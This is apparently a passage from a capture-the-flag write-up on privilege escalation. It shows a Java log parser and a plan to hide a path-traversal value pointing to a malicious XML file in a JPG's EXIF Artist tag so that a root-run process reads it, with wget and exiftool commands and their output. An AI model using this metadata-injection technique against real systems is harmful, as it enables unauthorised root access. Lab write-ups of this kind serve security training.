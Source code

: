 >Note: `jpg` metadata `Artist`

```java
public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        
        return map;
    }
```

>Note: User-Agent parsing.

##### Planning the attack

>Note: Create a `jpg` with an `Artist` metadata tag containing the path to an `xml` file which contains code to be run by `root`.

###### Craft a malicious jpg

	wget http://10.10.11.170:8080/img/greg.jpg
	exiftool greg.jpg

```text
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:25:35+02:00
File Access Date/Time           : 2022:08:29 13:25:35+02:00
File Inode Change Date/Time     : 2022:08:29 13:26:09+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : woodenk
<...SNIP...>
```

	exiftool greg.jpg

```text
ExifTool Version Number         : 12.44
File Name                       : greg.jpg
Directory                       : .
File Size                       : 103 kB
File Modification Date/Time     : 2022:08:29 13:32:14+02:00
File Access Date/Time           : 2022:08:29 13:32:14+02:00
File Inode Change Date/Time     : 2022:08:29 13:32:14+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Artist                          : ../home/woodenk/privesc
<...SNIP...>
```
